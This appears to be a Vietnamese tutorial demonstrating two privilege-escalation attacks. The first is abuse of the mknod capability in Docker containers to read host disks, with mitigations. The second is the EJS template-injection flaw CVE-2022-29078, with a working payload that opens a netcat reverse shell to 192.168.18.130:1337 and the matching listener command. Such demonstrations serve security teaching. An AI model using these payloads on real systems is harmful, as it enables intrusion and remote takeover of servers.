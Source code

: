 # Demo privilege escalation 2 shell
## Lạm dụng capability mknod khi có quyền root trong container

Block special file hay devices file là những file tham chiếu đến một thiết bị phần cứng trong linux.

Mknod là một câu lệnh linux cho phép tạo các devices file tùy ý mà chúng ta có quyền sở hữu và thực thi đối với bất kỳ thiết bị nào. Thậm chí các devices file có thể cung cấp quyền truy cập không giới hạn và bất kỳ người dùng nào cũng có quyền truy cập tùy ý (hardware & kernel module).

Để biết được các block devices nào đang được sử dụng trên hệ thống linux ta dùng lệnh `lsblk`

![alt text](image-3.png)

khi một container tạo ra mặc định user trong container sẽ có quyền root và hiển nhiên có quyền tạo ra một devices file.

Docker mặc định chặn người dùng trong container đọc và ghi các block device. Tuy nhiên lỗ hổng xảy ra khi có người dùng host bên ngoài container có cùng tên với người dùng bên trong container truy cập vào bằng /proc/{PID}/root/.../sda họ sẽ có quyền đọc ghi lên file sda này.

![alt text](image-4.png)

Lỗ hổng cho phép hacker toàn quyền đọc ghi tất cả các files trong ổ đĩa bao gồm /etc/shadow.

Để fix lỗ hổng này:
Best practice là hãy sử dụng một user rootless
hoặc sử dụng câu lệnh này khi chạy docker ```–cap-drop=MKNOD```


## EJS, Server side template injection RCE (CVE-2022-29078)

Lỗ hổng xảy ra do hacker có thể chèn mã độc hại vào bên trong hàm renderFile của EJS

```javascript
// Undocumented after Express 2, but still usable, esp. for
// items that are unsafe to be passed along with data, like `root`
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```
Chúng ta nhận ra là hàm copy hết tất cả view options vào viewOpts mà không hề có hạn chế nào

```javascript
prepended +=
    '  var __output = "";\n' +
    '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```

bây giờ ta có code được payload như sau:
```
x;process.mainModule.require('child_process').execSync('nc -e sh 192.168.18.130 1337');s
```

và code được compile sẽ là
```javascript
var x;process.mainModule.require('child_process').execSync('nc -e sh 192.168.18.130 1337');s = __append;
```
Sau đó sử dụng netcat để lắng nghe ở cổng 1337 ta sẽ có được shell
```sh
nc -lnvp 1337
```